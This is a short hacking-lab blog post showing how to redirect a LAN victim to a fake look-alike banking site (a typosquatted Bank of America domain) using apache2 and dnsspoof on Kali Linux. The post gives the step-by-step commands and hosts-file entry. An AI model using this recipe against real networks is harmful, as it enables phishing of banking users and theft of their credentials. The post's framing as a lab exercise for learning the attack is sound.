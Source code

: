 ```yaml
---
layout: post
title: Redirect Access Websites In LAN Using Dnsspoof  
categories: Hacking-Lab
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [hacking, dnsspoof, redirect dns, dns spoofing ]

---
```

## Script:  
Attacker and victim in a LAN network together and victim want to access to websites **www.bankofamerica.com** to make transactions.  
Because **www.bankofamerica** is protected by SSL so attacker can not attack by fake **www.bankofamerica.com**  in their computer. So  
they create a websites has the similar name in their computer, call **www.bankofamerrica.com**, then they find the way to seek to  
make someone else visit **www.bankofamerrica.com** instead **www.bankofamerica.com**.  
## 1. Network Model:  
- **Attacker: 192.168.1.92**
- **User: 192.168.1.173 using windows 7 system**  


## 2. Create Webserver:  
We can you service apache2 in kali linux to create a webserver. we should change content of index.html.    
```
vi /var/www/html/index.html
```    
Type: This Is Fake Websites Of www.bankofamerica.com    
![](/assets/img/2020-3-1-index.png)  
```
service apache2 start 
```    

## 3. Attack:  
```
vi /usr/local/hosts
```    
Type: 
```
192.168.1.92  www.bankofamerrica.com
```     
> :warning: **Warning:** use **TAB** between ip and domain.  
```    
dnsspoof -f /usr/local/hosts
```   
## Result:
![](/assets/img/2021-3-1-result.png)  
![](/assets/img/2020-3-1-result-dnsspoof.png)    
DNS query in wireshark:  
![](/assets/img/2021-3-1-show-dns-query.png)  

